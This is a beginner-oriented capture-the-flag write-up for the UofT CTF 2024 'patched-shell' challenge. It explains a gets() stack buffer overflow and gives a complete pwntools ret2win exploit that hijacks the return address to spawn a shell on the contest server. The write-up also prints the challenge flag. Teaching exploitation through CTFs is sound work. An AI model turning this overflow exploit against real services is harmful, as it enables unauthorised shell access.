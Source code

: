 ```yaml
---
layout: writeup
category: UofT-CTF-2024
chall_description: N/A
points: 250
solves: 199
tags: pwn ret2win buffer-overflow
date: 2024-1-15
comments: false
---
```


Okay, okay. So you were smart enough to do basic overflow huh...  

Now try this challenge! I patched the shell function so it calls system instead of execve... so now your exploit shouldn't work! bwahahahahaha  

Note: due to the copycat nature of this challenge, it suffers from the same bug that was in basic-overflow. see the cryptic message there for more information.  

Author: drec  
`nc 34.134.173.142 5000`  
[patched-shell](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2024/patched-shell)  

---

### Disclaimer
Most of this challenge was pretty much identical to basic-overflow. Skip towards the end if you already solved basic-overflow or read a writeup for it.  

Since this challenge is so simple, this writeup is intended primarily for complete beginners to pwn!  

We're given an ELF binary file. It is essentially a Linux executable, similar to .exe for Windows. We can decompile this with Ghidra, a powerful reverse-engineering tool. Download it if you don't have it!  

In Ghidra, on the left sidebar, we can open the Functions folder to see what sort of functions this program contains. Most of it is irrelevant, as some functions used for program functionality are also listed. However, there are two unusual functions that seem to be user-created. `main` and `shell`.  

Clicking on each allows us to see their decompilation. Here's `main`:  

```c
undefined8 main(void)

{
  char local_48 [64];
  
  gets(local_48);
  return 0;
}
```

Let's first examine main. The main function simply allocates 64 bytes for a character array, i.e. a string. It then calls gets() to receive user input for the variable. For people experienced with pwn, this is immediately a major red flag. gets() is vulnerable to buffer overflow. That is, it can receive more input than it should. So, even though only 64 bytes are allocated for the character array, the program could read in more than 64 bytes into the variable!  

Since the variable is located on the stack, which is essentially an area of the program's memory where variables and things like that are stored, it will *overflow* onto the stack, overwriting the memory of the program. Crucially, the return address is stored on the stack.  

The return address is essentially the location in the program that main() will return to after finishing and hitting the `return` statement. This is important, because if we can overwrite this return address, we can control what function main() executes next!  

Now let's take a look at shell.

```c
void shell(void)

{
  system("/bin/sh");
  return;
}
```

So this seems to be what's changed. But... doesn't this still pop a shell? Hm. Let's try thes same solution as in basic-overflow, i.e. overriding the return address with the address of the shell function.  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./patched-shell")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./patched-shell')
# gdb.attach(p)

p = remote('34.134.173.142', 5000)


# p.sendline(
#     cyclic(1024)
# )

offset = cyclic_find('saaa')
shell = pack.p64(elf.symbols['shell'])
payload = offset*b'A' + shell
p.sendline(payload)

p.interactive()
```

Ignore the top half -- it's all just setup.  

In the bottom half, there is first a commented out line of a 'cyclic(1024)'. All this does is send a string to the program that enables us to find the offset of the return address. We know what the return address becomes (after it is opened in gdb with `gdb.attach(p)`) by entering 'continue' and looking at the RSP register, i.e. the stack pointer, which shows that it is the string `saaa` in the cyclic.  

Thus, our offset can be found using pwntool's `cyclic_find()` function. The address of the shell function can be found in the ELF's symbols, and our payload can be contructed as `offset*b'A' + shell`. Note that the address of the shell function must be 'packed' into little endian and x64 format. I would recommend Googling those two if you are unaware of what they are.  

However, this doesn't actually work. I wasn't sure why it wasn't working, and spent 30 minutes just trying to look for a solution online. Turns out I'm stupid! The stack offset just becomes unaligned if we return to the first instruction of shell(), i.e. `push rbp`, so it will work just fine if we add 1 to the address of shell, thus returning to the next instruction instead and avoiding the push instruction.  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./patched-shell")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./patched-shell')
# gdb.attach(p)

p = remote('34.134.173.142', 5000)


# p.sendline(
#     cyclic(1024)
# )

offset = cyclic_find('saaa')
shell = pack.p64(elf.symbols['shell'] + 1) # only change
payload = offset*b'A' + shell
p.sendline(payload)

p.interactive()
```

Once we have our payload, we can send it to the remote service, pop a shell, and `ls` --> `cat flag` gives us our flag!  

    uoftctf{patched_the_wrong_function}